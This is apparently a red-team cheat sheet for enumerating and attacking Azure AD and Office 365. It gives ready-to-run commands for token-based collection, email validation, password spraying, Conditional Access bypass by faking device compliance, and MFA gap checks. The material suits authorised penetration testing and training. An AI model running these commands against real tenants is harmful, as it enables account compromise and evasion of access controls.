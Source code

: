 # Azure AD Enumerate

## Azure AD - Collectors

* roadrecon
    ```ps1
    roadrecon auth --access-token eyJ0eXA...
    roadrecon auth --prt-cookie <primary-refresh-token> -r msgraph -c "1950a258-227b-4e31-a9cf-717495945fc2"
    roadrecon gather
    ```
* AzureHound
    ```ps1
    ./azurehound --refresh-token <refresh-token> list --tenant "<target-tenant-id>" -o output.json
    ```


## Azure AD - User Enumeration

### Enumerate Tenant Informations

* Federation with Azure AD or O365
    ```powershell
    Get-AADIntLoginInformation -UserName <USER>@<TENANT NAME>.onmicrosoft.com
    https://login.microsoftonline.com/getuserrealm.srf?login=<USER>@<DOMAIN>&xml=1
    https://login.microsoftonline.com/getuserrealm.srf?login=root@<TENANT NAME>.onmicrosoft.com&xml=1
    ```
* Get the Tenant ID
    ```powershell
    Get-AADIntTenantID -Domain <TENANT NAME>.onmicrosoft.com
    https://login.microsoftonline.com/<DOMAIN>/.well-known/openid-configuration
    https://login.microsoftonline.com/<TENANT NAME>.onmicrosoft.com/.well-known/openid-configuration
    ```


### Enumerate Email

> By default, O365 has a lockout policy of 10 tries, and it will lock out an account for one (1) minute.

* Validate email 
    ```powershell
    PS> C:\Python27\python.exe C:\Tools\o365creeper\o365creeper.py -f C:\Tools\emails.txt -o C:\Tools\validemails.txt
    admin@<TENANT NAME>.onmicrosoft.com   - VALID
    root@<TENANT NAME>.onmicrosoft.com    - INVALID
    test@<TENANT NAME>.onmicrosoft.com    - VALID
    contact@<TENANT NAME>.onmicrosoft.com - INVALID
    ```
* Extract email lists with a valid credentials : https://github.com/nyxgeek/o365recon


### Password Spraying

The default lockout policy tolerates 10 failed attempts, then lock out an account for 60 seconds.

```powershell
PS> git clone https://github.com/dafthack/MSOLSpray
PS> . C:\Tools\MSOLSpray\MSOLSpray.ps1
PS> Invoke-MSOLSpray -UserList C:\Tools\validemails.txt -Password <PASSWORD> -Verbose
PS> Invoke-MSOLSpray -UserList .\userlist.txt -Password Winter2020
PS> Invoke-MSOLSpray -UserList .\users.txt -Password d0ntSprayme!
```


## Azure Services Enumeration

### Enumerate Tenant Domains

Extract openly available information for the given tenant: [aadinternals.com/osint](https://aadinternals.com/osint/)

```ps1
Invoke-AADIntReconAsOutsider -DomainName <DOMAIN>
Invoke-AADIntReconAsOutsider -Domain "company.com" | Format-Table
Invoke-AADIntReconAsOutsider -UserName "user@company.com" | Format-Table
```


### Enumerate Azure Subdomains

```powershell
PS> . C:\Tools\MicroBurst\Misc\InvokeEnumerateAzureSubDomains.ps1
PS> Invoke-EnumerateAzureSubDomains -Base <TENANT NAME> -Verbose
Subdomain Service
--------- -------
<TENANT NAME>.mail.protection.outlook.com Email
<TENANT NAME>.onmicrosoft.com Microsoft Hosted Domain
```

### Enumerate Services

* Using Az Powershell module
    ```powershell
    # Enumerate resources
    PS Az> Get-AzResource

    # List all VM's the user has access to
    PS Az> Get-AzVM 

    # Get all webapps
    PS Az> Get-AzWebApp | ?{$_.Kind -notmatch "functionapp"}

    # Get all function apps
    PS Az> Get-AzFunctionApp

    # List all storage accounts
    PS Az> Get-AzStorageAccount

    # List all keyvaults
    PS Az> Get-AzKeyVault

    # Get all application objects registered using the current tenant
    PS AzureAD> Get-AzureADApplication -All $true

    # Enumerate role assignments
    PS Az> Get-AzRoleAssignment -Scope /subscriptions/<SUBSCRIPTION-ID>/resourceGroups/RESEARCH/providers/Microsoft.Compute/virtualMachines/<VM-NAME>
    PS Az> Get-AzRoleAssignment -SignInName test@<TENANT NAME>.onmicrosoft.com

    # Check AppID Alternative Names/Display Name 
    PS AzureAD> Get-AzureADServicePrincipal -All $True | ?{$_.AppId -eq "<APP-ID>"} | fl
    ```

* Using az cli
    ```powershell
    PS> az vm list
    PS> az vm list --query "[].[name]" -o table
    PS> az webapp list
    PS> az functionapp list --query "[].[name]" -o table
    PS> az storage account list
    PS> az keyvault list
    ```


## Conditional Access Policy

Conditional Access is used to restrict access to resources to compliant devices only.

* Enumerate Conditional Access Policies: `roadrecon plugin policies` (query the local database)

| CAP                       | Bypass  |
|---------------------------|---------|
| Location / IP ranges      | Corporate VPN, Guest Wifi |
| Platform requirement      | User-Agent switcher (Android, PS4, Linux, ...) |
| Protocol requirement      | Use another protocol (e.g for e-mail acccess:  POP, IMAP, SMTP) |
| Azure AD Joined Device    | Try to join a VM (Work Access)|
| Compliant Device (Intune) | Fake device compliance |
| Device requirement        | / |
| MFA                       | / |
| Legacy Protocols          | / |
| Domain Joined             | / |


Bypassing conditional access by faking device compliance

```powershell
# AAD Internals - Making your device compliant
# Get an access token for AAD join and save to cache
Get-AADIntAccessTokenForAADJoin -SaveToCache
# Join the device to Azure AD
Join-AADIntDeviceToAzureAD -DeviceName "SixByFour" -DeviceType "Commodore" -OSVersion "C64"
# Marking device compliant - option 1: Registering device to Intune
# Get an access token for Intune MDM and save to cache (prompts for credentials)
Get-AADIntAccessTokenForIntuneMDM -PfxFileName .\d03994c9-24f8-41ba-a156-1805998d6dc7.pfx -SaveToCache 
# Join the device to Intune
Join-AADIntDeviceToIntune -DeviceName "SixByFour"
# Start the call back
Start-AADIntDeviceIntuneCallback -PfxFileName .\d03994c9-24f8-41ba-a156-1805998d6dc7-MDM.pfx -DeviceName "SixByFour"
```


## Multi Factor Authentication

* [dafthack/MFASweep](https://github.com/dafthack/MFASweep) - A tool for checking if MFA is enabled on multiple Microsoft Services
```ps1
Import-Module .\MFASweep.ps1
Invoke-MFASweep -Username targetuser@targetdomain.com -Password Winter2020
Invoke-MFASweep -Username targetuser@targetdomain.com -Password Winter2020 -Recon -IncludeADFS
```


## References

* [Bypassing conditional access by faking device compliance - September 06, 2020 - @DrAzureAD](https://o365blog.com/post/mdm/)
* [CARTP-cheatsheet - Azure AD cheatsheet for the CARTP course](https://github.com/0xJs/CARTP-cheatsheet/blob/main/Authenticated-enumeration.md)